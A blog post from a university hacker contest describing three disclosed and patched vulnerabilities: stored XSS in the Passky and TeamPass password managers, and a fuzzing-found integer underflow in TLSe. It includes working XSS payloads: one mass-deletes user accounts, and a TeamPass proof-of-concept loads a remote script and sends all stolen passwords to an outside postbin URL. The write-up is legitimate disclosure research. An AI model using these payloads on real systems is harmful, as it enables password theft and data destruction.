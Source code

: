 # Finding Security Vulnerabilities in Open-Source Repos

This winter semester I took part in the TU Darmstadt [Hacker
Contest](https://www.usd.de/tag/hacker-contest/), where we had an exercise in which we had to find
security vulnerabilities in open source repositories. In this blog post I will share my findings. It's nothing crazy,
but it was still fun to find them. The results of the exercise were two XSS in [two](#passky) [different](#teampass) password managers by analysing the source code and an integer underflow in a [TLS server](#tlse) by fuzzing.

<div id="passky"></div>

## Passky

Passky, which is listed on the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers) is "the most unbloated password manager". It has
just under [200 Stars on GitHub](https://github.com/Rabbit-Company/Passky-Server) and also offers [paid premium accounts](https://passky.org/pricing).


### Vulnerability

Searching for `innerHTML` in the JavaScript code for the admin page immediately produces several
hits. The most promising is shown below.

<figure>
  <p> <img src="hackercontest/passky-innerHtml.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 1: Injection user controlled input using innerHTML.</p>
  </figcaption>
</figure>

Here user controlled data is loaded as JSON and then injected into the HTML dom using `innerHTML`. The source of the email is the registration site where the user can register with an email. The email is then stored in the `createAccount` function within the `Database.php` file where the input is not XSS sanitized as shown below.

<div id="f2"></div>
<figure>
  <p> <img src="hackercontest/passky-email-sanitation.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 2: E-Mail sanitation</p>
  </figcaption>
</figure>

This leads to an XSS on the admin panel via a user controlled email.

### Exploit

To build an XSS exploit for this vulnerability, the following limitations need to be considered.

- ~74 character limit before \@ (the limit differs for different inputs)
- Only lowercase letters
- "[]" are not allowed
- Strong Content Security Policy

But with the help of a [fellow student](https://github.com/PatrickBidinger) we found a way to bypass these limitation using two stages (linebreaks in the email is just for formatting here):

```html
// Assign document.querySelector to the window with a shorter name as the email is limited to a short amount of chars

<img src=x
  onerror="window.a=document.query&#x53;elector.bind(document)">@test.de

// Get the first user (attackers one should be the last ones) and then call the function deleteAccount to delete the user

<img src=x 
  onerror="delete&#x41;ccount(a('td .text-sm').inner&#x54;ext)">@test.de

// deleteAccount will reload the page and the payload is executed again until no user is left (exepct the attackers last one)
```

When the admin then opens the admin panel, it will list all users including their email addresses.
Since the JS-Code is not filtered or escaped properly, it will execute and delete the first user
account int he list. This triggers the page to reload, which again leads to the deletion of the next
user. After repeating this over and over again, all users but the malicious user accounts will be
deleted (including all of their data and stored passwords). 


<figure>
  <p> <img src="hackercontest/passky-deleting.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 3: Deleting all the accounts.</p>
  </figcaption>
</figure>


### Responsible Disclosure

The vulnerability was reported via Discord to the main author. As patch I recommended the use of `htmlentities`:

```git
--- a/server/src/Database.php
+++ b/server/src/Database.php
@@ -319,7 +319,7 @@ class Database{
                if(!preg_match("/^[a-z0-9]{128}$/i", $password)) return Display::json(5);

                $username = strtolower($username);
-               $email = strtolower($email);
+               $email = htmlentities(strtolower($email));
                $encrypted_password = self::encryptPassword($password);

                switch(self::isUsernameTaken($username)){
```

The author fixed the issue within a day and his responses were fast. I was even offered a Bug Bounty of 100€.

### Patch

The author fixed the vulnerability with the commit [`10882e6`](https://github.com/Rabbit-Company/Passky-Server/commit/10882e6a0a1fd6b946ad4dc7deb20c71d5eaf0cf). He also found additional
places where the sanitation of the user input was not good enough.


<div id="teampass"></div>

## TeamPass 

As Passky [TeamPass](https://github.com/nilsteampassnet/TeamPass) was found via the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers). TeamPass has over 1700
Stars on GitHub and "is a Collaborative Passwords Manager solution installed On-Premise." 


### Vulnerability

The procedure was similar to Passky. I cloned the repo and search for the `innerHTML` sink. I found a place
where the password is injected using `innerHTML` but while trying out I have noticed that the
password is sanitized before it is stored in the database. But going through the code I found that
the `tags` are not `htmlspecialchars` encoded but decoded as shown below.


<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 4: Tags are htmlspecialchars_decode</p>
  </figcaption>
</figure>


The tags are then later injected using JQuery in a insecure way leading to an XSS.

<figure>
  <p> <img src="hackercontest/teampass-script_tag.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 5: Tags are included insecurely</p>
  </figcaption>
</figure>


### Exploit

As TeamPass is a collaborative password manager an attacker could inject the XSS in a shared
password which is then executed in another users browser session allowing the attacker to extract
all passwords of this user. I also wrote a small POC which exfiltrates all passwords from another
user with higher privileges.

The first script of the exploit places the XSS by creating a script tag which includes a src
attribute where the next stage of the exploit is located as the tags have a length limit.

```js
function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}
var data = {
    "anyone_can_modify": 0,
    "complexity_level": 0,
    "description": "",
    "diffusion_list": [],
    "diffusion_list_names": [],
    "folder": 2,
    "email": "",
    "fields": [],
    "folder_is_personal": 0,
    "id": "",
    "label": "test",
    "login": "",
    "pw": "",
    "restricted_to": [],
    "restricted_to_roles": [],
    "tags": "<script\nsrc=http://tsmr.eu/_>",
    "template_id": null,
    "to_be_deleted_after_x_views": "",
    "url": "",
    "user_id": 10000000,
    "uploaded_file_id": "",
    "fa_icon": "",
    "otp_is_enabled": 0,
    "otp_phone_number": "",
    "otp_secret": ""
}


$.post(
    "sources/items.queries.php", {
    type: "update_item",
    data: prepareExchangedData(JSON.stringify(data), "encode", getKey()),
    key: getKey()
},
    function (data) {
        data = prepareExchangedData(data, "decode", getKey());
        console.log(data);
    }
)
```

The script which is then executed first loads a list of all passwords. It then sends a GET request to the attacker
controlled server on which the attacker can get the passwords as shown below.

<figure>
  <p> <img src="hackercontest/teampass-password_exfiltrate.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 6: Passwords which where exfiltrate by the XSS</p>
  </figcaption>
</figure>


```js
// This POC script is loaded via the script tag and then loads all passwords and sends them to a postbin.

waiting_for_passwords = 0
stolenPasswords = {}

function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}

function getPassword(item_key, callback) {
    var key = getKey();
    $.ajax({
        type: "POST",
        async: false,
        url: 'sources/items.queries.php',
        data: 'type=show_item_password&item_key=' + item_key + '&key=' + key,
        dataType: "",
        success: function (data) {
            try {
                data = prepareExchangedData(data, "decode", key);
                callback(item_key, true, atob(data["password"]));
            } catch (e) {
                callback(item_key, false, null)
                return false;
            }
        },
        onerror: function () {
            callback(item_key, false, null)
        }
    });
}

function gotNewPassword(item_key, status, password) {
    stolenPasswords[item_key].password = password;
    stolenPasswords[item_key].password_status = status;
    waiting_for_passwords -= 1;
}

function getFolderIds() {
    return JSON.parse(localStorage["teampassApplication"]).foldersList.map((x) => x.id);
}


function loadFolderInfo(folderId, callback) {
    var key = getKey();
    var dataArray = {
        id: folderId,
        restricted: "",
        start: 0,
        uniqueLoadData: "",
        nb_items_to_display_once: 100000,
    };

    $.post('sources/items.queries.php', {
        type: 'do_items_list_in_folder',
        data: prepareExchangedData(JSON.stringify(dataArray), 'encode', key),
        key: key,
    },
        function (retData) {
            //get data
            data = decodeQueryReturn(retData, key, 'items.queries.php', 'do_items_list_in_folder');
            for (var item in data["html_json"]) {
                item = data["html_json"][item];
                stolenPasswords[item["item_key"]] = item;
                waiting_for_passwords += 1
                getPassword(item["item_key"], gotNewPassword);

            }
            callback()
        })
}

function recursiveLoadFolders(folderIds, finish) {
    if (folderIds.length == 0)
        return finish()
    let folderid = folderIds.pop();
    loadFolderInfo(folderid, () => {
        recursiveLoadFolders(folderIds, finish);
    })
}

var folderIds = getFolderIds();
recursiveLoadFolders(folderIds, () => {
    while (waiting_for_passwords != 0) { }
    as_json = JSON.stringify(Object.values(stolenPasswords))
    fetch("https://www.postb.in/1730158735475-0322664373088?" + as_json)
});
```

### Responsible Disclosure

Since my emails were ending up in spam with the main author and a main contributor, I asked in a [GitHub issue](https://github.com/nilsteampassnet/TeamPass/issues/4399#issuecomment-2468267771) if they could see the emails, they responded and quickly fixed the issue.


### Patch

The patch is straight forward as they only have to replace the decode with the encode function as shown below.

<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 7: Fix</p>
  </figcaption>
</figure>

The vulnerability was fixed with [PR 4457](https://github.com/nilsteampassnet/TeamPass/pull/4457).


<div id="tlse"></div>

## TLSe

[TLSe](https://github.com/eduardsui/tlse), which has over 500 Stars on GitHub is a "single C file TLS 1.3, 1.2, 1.1 and
1.0 (without the weak ciphers) implementation, using libtomcrypt as crypto library."

### Vulnerability

As my goal was to find a memory corruption a a small fuzzing environment was created where 5 different open source repos
written in C where fuzzed. The only crash was in the TLSe server which is described below.

TLSe repo multiple different harnesses where created, one for the TLS client hello, one for the TLS client certificate and one
for the ANSI parser.

As I am a Rustacean the harness was written in Rust - of course - for this [`afl.rs`](https://rust-fuzz.github.io/book/afl.html) was used. For this I compiled TLSe to a static library
and used bindgen to generate the header files for Rust so I am able to call the C functions in Rust. I created a small
helper crate which was responsible for setting up the server and sending the input buffer to the target.

```rust
pub struct FuzzServer {
    context: *mut TLSContext,
    fragmenting: bool
}

impl FuzzServer {

    pub fn new_tcp(fragmenting: bool) -> FuzzServer {
        unsafe {
            let context = SSL_CTX_new(SSLv3_server_method());
            let context = SSL_new(context);
            SSL_set_fd(context, -1); // socket is wrapped...
            FuzzServer {
                context, fragmenting
            }
        }
    }

    pub fn send_fuzzing_input_raw(&mut self, input: &mut [u8]) -> i32 {

        if self.fragmenting {
            todo!("Implement Logic to fragmenting the sending");
        }

        unsafe {tls_consume_stream(self.context, input.as_mut_ptr(), input.len() as c_int, None)}
    }

// ...
```

With theses helper functions multiple harnesses for the different targets like the Client Hello or the Client Certificate
Parse function shown below can be easily created.

```rust
#[macro_use]
extern crate afl;
use anyhow::{Result};
use mytlse::client::{FuzzServer};

fn execute_fuzz_target(buf: &[u8]) -> Result<(i32)> {
    let mut ret = 0;
    unsafe {
        let mut myserver = FuzzServer::new_tcp(false);
        let mut buf = buf.to_vec();
        ret = myserver.send_fuzzing_input_raw(&mut buf);
    }
    Ok((ret))
}

#[cfg(fuzzing)]
fn main() {
    fuzz!(|data: &[u8]| {
        execute_fuzz_target(data);
    });
}

#[cfg(not(fuzzing))]
fn main() {
    let client_hello = FuzzServer::get_client_hello();
    execute_fuzz_target(&client_hello).unwrap();
}
```

For the client certificate request the fuzzer found multiple crashes in a matter of minutes.


<figure>
  <p> <img src="hackercontest/tlse-fuzzer_crashes.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 8: AFL++ found multiple crashes.</p>
  </figcaption>
</figure>

After debugging, the crashes could be identified as an integer underflow because of a wrong size check.

<figure>
  <p> <img src="hackercontest/tlse-wrong_size_check.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 9: Wrong size check leading to an integer underflow.</p>
  </figcaption>
</figure>

As shown Figure 9 the `size` variable is parsed from user-controlled input and then used
to subtract from the `remaining` variable. This leads to an integer overflow of the `remaining`
variable. This will cause the variable `res2` will get too big, leading to an `EXC_BAD_ACCESS` error
when `res2` is used to access data from `buf`.

### Exploit

With the crash file of the fuzzer it is possible to crash the target, but as the variable which is underflow is only
used to access data it is not possible to exploit it further.

### Responsible Disclosure

The crash was first reported via mail without any response (probably also landed in spam). After opening an [GitHub Issue](https://github.com/eduardsui/tlse/issues/105) the author responded directly and asking for an PR which fixes the issue. 

Which was done with [this](https://github.com/eduardsui/tlse/pull/106) PR.

### Patch

The patch is to change the comparison parameters to ensure that `size` is smaller then `remaining` before it is
subtracted from it.

<figure>
  <p> <img src="hackercontest/tlse-fix.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 10: Fix.</p>
  </figcaption>
</figure>


## Conclusion

In conclusion, it was a great time searching for vulnerabilities in open-source repositories. The experience was made
even better by the quick responses from the maintainers, who are all dedicated to improving their projects.